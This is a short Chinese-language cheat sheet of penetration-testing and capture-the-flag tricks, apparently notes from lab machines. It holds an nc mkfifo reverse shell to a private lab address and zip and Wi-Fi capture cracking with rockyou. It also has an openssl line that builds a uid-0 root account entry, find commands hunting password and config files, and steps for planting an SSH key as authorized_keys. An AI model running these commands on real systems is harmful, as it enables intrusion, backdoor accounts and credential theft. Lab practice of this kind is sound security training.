   当然也可以添加反弹shell



# 实用技巧及工具

- `fcrackzip` 破解 `zip` 文件

  ```bash
  fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u safe.zip
  ```

- 破解数据包流量文件 `.cap` ，`aircrack-ng` 工具

  ```bash
  aircrack-ng -w rockyou.txt user.cap
  ```

- 反弹 shel l命令，这里目标机不是用的 `bash` 而是 `dash`，bash反弹无效，用 nc 反弹：

  ```bash
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.16.250.128 8881 >/tmp/f
  ```

- `linux` 用 `openssl` 生成账号密码

  ```bash
  openssl passwd -1 -salt zf1yolo 123456
  $1$zf1yolo$oULk89mtehUjxLPH9cRSn1
  zf1yolo:$1$zf1yolo$oULk89mtehUjxLPH9cRSn1:0:0:root:/root:/bin/bash
  ```

- linux 的 find 命令，查找 flag

  ```bash
  find / -name "flag*"
  find / -name "test.py" 2>/dev/null
  find / -name "*pass*" -type  f 2>/dev/null  查找靶机中关于密码的信息
  find / -name "*config*" -type  f 2>/dev/null | grep /var/www    查找网站中关于配置文件的信息
  find / -perm 777 -type f 2>/dev/null   查找具有777 权限的文件
  find / -type f -name "cleaner.py" 2>/dev/null   查找  cleaner.py
  find / -user root -writable -type f -not -path "/proc/*"  2>/dev/null
  ```

  [Linux find 命令 | 菜鸟教程 (runoob.com)](https://www.runoob.com/linux/linux-comm-find.html)

- 生成SSH公钥和私钥，上传公钥（且重命名为authorized_keys）到目标服务器用户家目录的 `.ssh` 目录下，注意私钥的权限是 400，私钥登录：

  ```bash
  ssh-keygen -f rails
  mv rails.pub authorized_keys
  chmod 400 rails
  ssh -i rails rails@172.16.250.131
  ```


- `unzip` 解压 .zip 文件

  ```bassh
  unzip user.zip
  ```
